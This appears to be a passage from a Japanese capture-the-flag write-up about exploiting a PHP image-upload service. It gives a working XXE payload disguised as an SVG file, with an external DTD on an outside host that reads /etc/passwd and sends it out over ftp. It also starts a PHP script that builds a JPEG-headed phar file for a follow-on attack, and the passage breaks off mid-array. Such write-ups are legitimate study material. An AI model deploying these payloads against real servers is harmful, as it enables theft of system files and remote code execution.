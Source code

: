 ```php
        }
        $file_dst = $this->folder . $this->file_name . $this->extension;
        move_uploaded_file($this->tmp_name, $file_dst);
        $this->create_thumb();
    }
```
- **Payload**   
本来は以下でflagを見ればよいが、今回はフラグのあるフルパスがどうしてもわからないのでRCEする必要がある。これはとりあえず`/etc/passwd`を見れるってかんじ。   
```txt
// これをsvgファイルとしてアップロードする
<!DOCTYPE svg [
<!ELEMENT svg ANY >
<!ENTITY % sp SYSTEM "http://jbz.team/evil.xml">
%sp;
%param1;
]>
<svg viewBox="0 0 400 400" version="1.2" xmlns="http://www.w3.org/2000/svg" style="fill:red">
      <text x="60" y="15" style="fill:black">PoC for XXE file stealing via SVG rasterization</text>
      <rect x="0" y="0" rx="10" ry="10" width="400" height="400" style="fill:green;opacity:0.3"/>
      <flowRoot font-size="15">
         <flowRegion>
           <rect x="10" y="20" width="380" height="370" style="fill:yellow;opacity:0.3"/>
         </flowRegion>
         <flowDiv>
            <flowPara>&exfil;</flowPara>
         </flowDiv>
      </flowRoot>
</svg>


// evil.xml (攻撃者サーバーに用意する)
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'ftp://jbz.team/%data;'>">
```
以下でアップロードするための`phar`ファイルを作成する。   
```php
<?php
class Image {}

$jpeg_header_size = 
"\xff\xd8\xff\xe0\x00\x10\x4a\x46\x49\x46\x00\x01\x01\x01\x00\x48\x00\x48\x00\x00\xff\xfe\x00\x13".
"\x43\x72\x65\x61\x74\x65\x64\x20\x77\x69\x74\x68\x20\x47\x49\x4d\x50\xff\xdb\x00\x43\x00\x03\x02".
"\x02\x03\x02\x02\x03\x03\x03\x03\x04\x03\x03\x04\x05\x08\x05\x05\x04\x04\x05\x0a\x07\x07\x06\x08\x0c\x0a\x0c\x0c\x0b\x0a\x0b\x0b\x0d\x0e\x12\x10\x0d\x0e\x11\x0e\x0b\x0b\x10\x16\x10\x11\x13\x14\x15\x15".
"\x15\x0c\x0f\x17\x18\x16\x14\x18\x12\x14\x15\x14\xff\xdb\x00\x43\x01\x03\x04\x04\x05\x04\x05\x09\x05\x05\x09\x14\x0d\x0b\x0d\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14".
"\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\xff\xc2\x00\x11\x08\x00\x0a\x00\x0a\x03\x01\x11\x00\x02\x11\x01\x03\x11\x01".
"\xff\xc4\x00\x15\x00\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x08\xff\xc4\x00\x14\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xff\xda\x00\x0c\x03".
"\x01\x00\x02\x10\x03\x10\x00\x00\x01\x95\x00\x07\xff\xc4\x00\x14\x10\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x01\x05\x02\x1f\xff\xc4\x00\x14\x11".
"\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x03\x01\x01\x3f\x01\x1f\xff\xc4\x00\x14\x11\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20".
"\xff\xda\x00\x08\x01\x02\x01\x01\x3f\x01\x1f\xff\xc4\x00\x14\x10\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x06\x3f\x02\x1f\xff\xc4\x00\x14\x10\x01".
```